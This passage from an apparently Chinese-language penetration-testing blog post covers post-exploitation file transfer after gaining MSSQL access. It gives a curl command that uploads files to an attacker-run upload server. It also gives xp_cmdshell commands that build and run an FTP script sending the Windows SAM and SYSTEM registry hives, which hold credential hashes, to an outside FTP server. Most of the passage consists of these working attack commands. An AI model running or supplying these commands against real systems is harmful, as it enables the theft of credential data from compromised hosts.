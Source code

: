[SimpleHTTPServerWithUpload.py下载](https://gist.github.com/UniIsland/3346170)  


3、执行1.cs编译生成的可执行文件即可把C:\test.txt上传到HTTPServer机器的SimpleHTTPServerWithUpload.py所在目录。  
补充：如果目标机器上有curl，可以通过下面的命令配合SimpleHTTPServerWithUpload.py上传文件：  
```
curl xxxx:port -F "file=@/path/file" --header "referer:a"
```
#### 二、利用ftp进行上传下载  
[可能会用到的FTP Server推荐FileZilla](https://filezilla-project.org/)
##### （一）利用ftp从目标机器上传文件至ftp服务器  
1、把ftp命令写入文件  
把下面的ftp命令写入目标机器的c:\ftp.txt里  
```
open 172.30.10.49 21  #ftp服务器地址
admin   #username
admin   #password
bin 
PUT c:\sam.hive 
PUT c:\system.hive
```
执行如下命令  
```
exec master..xp_cmdshell 'echo open 172.30.10.49 21> c:\ftp.txt'
exec master..xp_cmdshell 'echo admin>> c:\ftp.txt'
exec master..xp_cmdshell 'echo admin>> c:\ftp.txt'
exec master..xp_cmdshell 'echo bin>> c:\ftp.txt'
exec master..xp_cmdshell 'echo PUT c:\sam.hive>> c:\ftp.txt'
exec master..xp_cmdshell 'echo PUT c:\system.hive>> c:\ftp.txt'
```
注意">、>>"前面不能有空格。  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/mssql%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%88%A9%E7%94%A8/%E5%86%99%E5%85%A5ftp_txt.jpeg?raw=true)


2、执行ftp命令  
```
exec master..xp_cmdshell 'ftp -s:c:\ftp.txt'
```
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/mssql%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%88%A9%E7%94%A8/%E6%89%A7%E8%A1%8Cftp%E5%91%BD%E4%BB%A4.jpeg?raw=true)